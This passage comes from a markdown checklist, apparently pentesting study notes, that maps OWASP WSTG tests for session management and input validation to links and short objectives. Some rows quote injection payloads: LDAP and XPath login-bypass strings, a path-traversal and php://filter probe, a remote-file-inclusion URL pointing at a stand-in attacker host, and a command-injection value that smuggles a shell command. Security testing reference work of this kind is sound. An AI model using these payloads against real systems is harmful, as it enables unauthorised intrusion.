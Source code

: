 	|6.8|[WSTG-SESS-08](WSTG-SESS-08.md)|[Testing for Session Puzzling](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/08-Testing_for_Session_Puzzling)|- Identify all session variables.  - Break the logical flow of session generation.  - Check whether the application uses the same session variable for more than one purpose|
	|6.9|[WSTG-SESS-09](WSTG-SESS-09.md)|[Testing for Session Hijacking](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/09-Testing_for_Session_Hijacking)|- Identify vulnerable session cookies.  - Hijack vulnerable cookies and assess the risk level.|
	|6.10|[WSTG-SESS-10](WSTG-SESS-10.md)|[Testing JSON Web Tokens](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)|- Determine whether the JWTs expose sensitive information.  - Determine whether the JWTs can be tampered with or modified.|


## 7. Data Validation Testing

??? tip "7. Data Validation Testing"
	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|7.1|[WSTG-INPV-01](WSTG-INPV-01.md)|[Testing for Reflected Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)|- Identify variables that are reflected in responses.  - Assess the input they accept and the encoding that gets applied on return (if any).|
	|7.2|[WSTG-INPV-02](WSTG-INPV-02.md)|[Testing for Stored Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)|- Identify stored input that is reflected on the client-side.  - Assess the input they accept and the encoding that gets applied on return (if any).|
	|7.3|[WSTG-INPV-03](WSTG-INPV-03.md)|[Testing for HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)|N/A, This content has been merged into: WSTG-CONF-06|
	|7.4|[WSTG-INPV-04](WSTG-INPV-04.md)|[Testing for HTTP Parameter Pollution](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution)|- Identify the backend and the parsing method used.  - Assess injection points and try bypassing input filters using HPP.|
	|7.5|[WSTG-INPV-05](WSTG-INPV-05.md)|[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)|- Identify SQL injection points.  - Assess the severity of the injection and the level of access that can be achieved through it.|
	|7.6|[WSTG-INPV-06](WSTG-INPV-06.md)|[Testing for LDAP Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection)|- Identify LDAP injection points:  /ldapsearch?user=*  user=*user=*)(uid=*))(\|(uid=*  pass=password  - Assess the severity of the injection:|
	|7.7|[WSTG-INPV-07](WSTG-INPV-07.md)|[Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)|- Identify XML injection points with XML Meta Characters:  ', " , <>, <!--/-->, &, <![CDATA[ / ]]>, XXE, TAG  - Assess the types of exploits that can be attained and their severities.|
	|7.8|[WSTG-INPV-08](WSTG-INPV-08.md)|[Testing for SSI Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection)|- Identify SSI injection points (Presense of .shtml extension) with these characters:  < ! # = / . " - > and [a-zA-Z0-9]  - Assess the severity of the injection.|
	|7.9|[WSTG-INPV-09](WSTG-INPV-09.md)|[Testing for XPath Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/09-Testing_for_XPath_Injection)|- Identify XPATH injection points by checking for XML error enumeration by supplying a single quote ('):  Username: ‘ or ‘1’ = ‘1  Password: ‘ or ‘1’ = ‘1|
	|7.10|[WSTG-INPV-10](WSTG-INPV-10.md)|[Testing for IMAP SMTP Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/10-Testing_for_IMAP_SMTP_Injection)|- Identify IMAP/SMTP injection points (Header, Body, Footer) with special characters (i.e.: \, ‘, “, @, #, !, \|)  - Understand the data flow and deployment structure of the system.  - Assess the injection impacts.|
	|7.11|[WSTG-INPV-11](WSTG-INPV-11.md)|[Testing for Code Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection)|- Identify injection points where you can inject code into the application.  - Check LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource).  - Check RFI from malicious URL  ?page.php?file=http://attacker.com/malicious_page  - Assess the injection severity.|
	|7.12|[WSTG-INPV-12](WSTG-INPV-12.md)|[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)|- Identify and assess the command injection points with special characters (i.e.: \| ; & $ > < ' !)  For example: ?doc=Doc1.pdf+\|+Dir c:\|